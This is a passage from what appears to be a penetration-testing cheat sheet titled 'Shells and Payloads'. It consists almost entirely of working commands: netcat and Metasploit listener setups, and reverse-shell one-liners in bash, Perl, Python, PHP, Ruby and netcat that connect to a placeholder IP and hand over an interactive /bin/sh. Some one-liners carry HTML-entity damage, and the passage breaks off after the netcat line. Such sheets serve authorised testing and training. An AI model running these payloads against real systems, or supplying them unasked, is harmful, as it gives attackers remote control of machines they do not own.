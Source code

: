 # Shells and Payloads

### Shells / Payloads <a href="#shells--payloads" id="shells--payloads"></a>

#### Universal Listeners <a href="#universal-listeners" id="universal-listeners"></a>

```bash
# Netcat
[sudo] rlwrap nc -nvlp <port>

# msf multi/handler
msf(exploit/multi/handler)> set payload path/to/payload
msf(exploit/multi/handler)> set LHOST <ip> # or <interface>
msf(exploit/multi/handler)> set LPORT <port>
```

#### Linux <a href="#linux" id="linux"></a>

**One-liners**

Credit to [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

<pre class="language-bash"><code class="lang-bash"># bash
/bin/bash -c "/bin/bash -i >&#x26; /dev/tcp/10.10.10.10/443 0>&#x26;1"

# Perl
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&#x26;S");open(STDOUT,">&#x26;S");open(STDERR,">&#x26;S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i &#x26;3 2>&#x26;3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",443).to_i;exec sprintf("/bin/sh -i &#x26;%d 2>&#x26;%d",f,f,f)'

# Netcat : -u for UDP
nc [-u] 10.10.10.10 443 -e /bin/bash
